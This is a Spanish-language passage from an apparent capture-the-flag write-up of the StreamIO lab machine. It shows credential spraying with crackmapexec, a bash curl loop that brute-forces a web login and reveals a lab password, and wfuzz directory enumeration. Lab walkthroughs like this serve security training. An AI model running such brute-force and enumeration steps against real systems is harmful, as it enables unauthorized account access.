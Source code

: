 Ahora con credenciales, no se si son validas para el login con respecto al usuario

Primero para no perder tiempo nos sercioramos que si alguna credencial es valida para ver recursos compartidos a nivel de red:
```ruby
❯ crackmapexec smb 10.10.11.158 -u user.txt -p pass.txt
SMB         10.10.11.158    445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:streamIO.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.158    445    DC               [-] streamIO.htb\[user.txt]:[pass.txt] STATUS_LOGON_FAILURE 
...[snip]...
```
Ninguna para Samba es correcta

### Script en Bash [+](#script-bash) {#script-bash}

Asi que, porque no hacer un pequeño script en bash para agilizar la jugada en el panel de login

Almacenamos todos los nombres en user.txt y las contraseñas reveladas en pass.txt (todos en una sola linea y separada por un espacio) y ejecutamos el siguiente script de bash:
```ruby
#!/bin/bash

  for user in $(cat user.txt);do
    for pass in $(cat pass.txt);do
      bash -c "curl -s -X POST \"https://streamio.htb/login.php\" -d \"username=$user&password=$pass\" -k | grep 'Login failed'"
 &>/dev/null 
	  sleep 0
      if [[ $? != 0 ]];then
        echo "La credencial correcta es = $user : $pass"
        exit 0
	   else 
	    echo "No es correcta = $user : $pass"
      fi
done
done
```

Si todo va bien, el codigo de estado sera exitoso(0) cuando encuentre la credencial correcta

Y vemos que 'yoshihide'es un usuario que coincide con la contraseña '66boysandgirls..'

En el panel de login introducimos las credenciales, y nos iniciar seción pero...

No veo ninguna configuración, vamos a buscar directorios.

Yo útilizare **WFUZZ**
```ruby
❯ wfuzz -c -t 100 --hc=404 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt https://streamio.htb/FUZZ

Target: https://streamio.htb/FUZZ
Total requests: 220546

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                          
=====================================================================

000000002:   301        1 L      10 W       151 Ch      "images"                                                                                                                                                                                  
000000245:   301        1 L      10 W       150 Ch      "admin" 
...[snip]...
```
